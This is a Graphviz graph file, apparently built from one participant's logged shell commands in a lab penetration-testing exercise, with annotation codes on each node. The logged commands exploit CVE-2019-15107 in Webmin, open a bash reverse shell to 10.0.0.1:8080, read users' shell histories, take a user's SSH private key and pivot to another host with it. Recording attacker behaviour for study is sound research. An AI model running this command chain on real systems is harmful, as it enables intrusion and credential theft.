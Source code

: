 // creating graph for user: 66
digraph {
	node [shape=box]
	0 [label="ifconfig U"]
	1 [label="nmao U"]
	2 [label="nmap A0 A1 "]
	3 [label="nmap A0 A1 "]
	4 [label="ifconfig U"]
	5 [label="nmap -h A0 A1 "]
	6 [label="curl U"]
	7 [label="ifconfig U"]
	8 [label="git clone github.com/jas502n/CVE-2019-15107 U"]
	9 [label="git clone https://github.com/jas502n/CVE-2019-15107 U"]
	10 [label="python CVE_2019_15107.py https://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	11 [label="ls A10 "]
	12 [label="ls -la A10 "]
	13 [label="drwx------  3 root root  4096 Apr  7 11:39 .gnupg U"]
	14 [label="drwxr-xr-x  3 root root  4096 Jul 15 09:27 .local U"]
	15 [label="drwxr-xr-x  2 root root  4096 Jul 15 09:27 Music U"]
	16 [label="drwxr-xr-x  2 root root  4096 Jul 15 09:27 Pictures U"]
	17 [label="git clone https://github.com/jas502n/CVE-2019-15107 U"]
	18 [label="cd U"]
	19 [label="ls A10 "]
	20 [label="cd CVE-2019-15107/ U"]
	21 [label="ls A10 "]
	22 [label="python CVE_2019_15107.py https://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	23 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	24 [label="ncat -l 8080 A1 A9 A11 A12 A17 "]
	25 [label="sudo apt install ncat A1 A9 A11 A12 A17 "]
	26 [label="ncat -l 8080 A1 A9 A11 A12 A17 "]
	27 [label="ncat -i 8080 A1 A9 A11 A12 A17 "]
	28 [label="ncat -l 8080 A1 A9 A11 A12 A17 "]
	29 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	30 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'id' A13 "]
	31 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat ./.bash_history' A11 M11 A12 A13 A17 "]
	32 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/eva/.bash_history' V11 "]
	33 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/bob/.bash_history' V11 "]
	34 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/debian/.bash_history' V11 "]
	35 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls home/debian/' A10 A13 "]
	36 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/debian/' A10 A13 "]
	37 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la' A10 A13 "]
	38 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /home ; ls' A10 A13 "]
	39 [label="module.info.pt_BR.UTF-8 U"]
	40 [label="module.info.ru.UTF-8 U"]
	41 [label="module.info.ru_RU U"]
	42 [label="module.info.ru_RU.UTF-8 U"]
	43 [label="module.info.ru_SU U"]
	44 [label="module.info.sk U"]
	45 [label="module.info.sk.UTF-8 U"]
	46 [label="module.info.sv U"]
	47 [label="module.info.sv.UTF-8 U"]
	48 [label="module.info.tr U"]
	49 [label="module.info.zh_CN U"]
	50 [label="module.info.zh_TW.Big5 U"]
	51 [label="negativeacl U"]
	52 [label="openssl.cnf U"]
	53 [label="postinstall.pl U"]
	54 [label="save_acl.cgi U"]
	55 [label="save_group.cgi U"]
	56 [label="save_pass.cgi U"]
	57 [label="save_sql.cgi U"]
	58 [label="save_sync.cgi U"]
	59 [label="save_twofactor.cgi U"]
	60 [label="save_unix.cgi U"]
	61 [label="save_user.cgi A4 "]
	62 [label="schema.cgi U"]
	63 [label="switch.cgi U"]
	64 [label="system_info.pl U"]
	65 [label="twofactor.pl U"]
	66 [label="twofactor_form.cgi U"]
	67 [label="useradmin_update.pl A4 "]
	68 [label="webmin.schema U"]
	69 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /home ; ls -la' A10 A13 "]
	70 [label="rwxr-xr-x   6 root bin 12288 Jul  4  2019 . U"]
	71 [label="drwxr-xr-x 132 root bin 12288 Jul  4  2019 .. U"]
	72 [label="drwxr-xr-x   3 root bin  4096 Jul  4  2019 Authen-SolarisRBAC-0.1 U"]
	73 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd / ; ls -la' A10 A13 "]
	74 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	75 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/alice' A10 A13 "]
	76 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/alice' A10 A13 "]
	77 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/debian' A10 A13 "]
	78 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve' A10 M10 A13 "]
	79 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' V11 "]
	80 [label="ervices U"]
	81 [label="echo '81.2.195.254' >> ~/top-secret/too_dangerous.txt U"]
	82 [label="2.195.254 U"]
	83 [label="cat /etc/services A1 M1 A9 A11 A12 A17 "]
	84 [label="less /etc/services A9 A11 A12 A17 "]
	85 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/bob/.bash_history' V11 "]
	86 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/bob' A10 A13 "]
	87 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' V11 "]
	88 [label="ssh 10.1.18.22 A16 "]
	89 [label="ssh 10.1.17.4 A16 "]
	90 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ssh eve@10.1.17.4' A16 M16 "]
	91 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh' A1 A9 A11 A12 A13 A16 A17 "]
	92 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/' V10 "]
	93 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh' A1 A9 A11 A12 A13 A16 A17 "]
	94 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' V11 "]
	95 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/' V10 "]
	96 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/bob' A10 A13 "]
	97 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve' V10 "]
	98 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve/.ssh/' V10 "]
	99 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa' A12 M12 A13 A16 A17 "]
	100 [label="touch id_rsa U"]
	101 [label="nano id_rsa U"]
	102 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa.pub' V12 "]
	103 [label="touch id_rsa.pub U"]
	104 [label="nano id_rsa.pub U"]
	105 [label="ssh eve@10.1.17.4 V16 "]
	106 [label="cd .. U"]
	107 [label="ls A10 "]
	108 [label="cd .ssh A16 "]
	109 [label="ls A10 "]
	110 [label="ls -la A10 "]
	111 [label="chmod 600 id_rsa A15 M15 "]
	112 [label="ls -la A10 "]
	113 [label="ssh eve@10.1.17.4 V16 "]
	114 [label="gpg2john id_rsa A14 "]
	115 [label="scp -r * eve@10.1.17.4:/home/eve/ U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	rankdir=LR
}
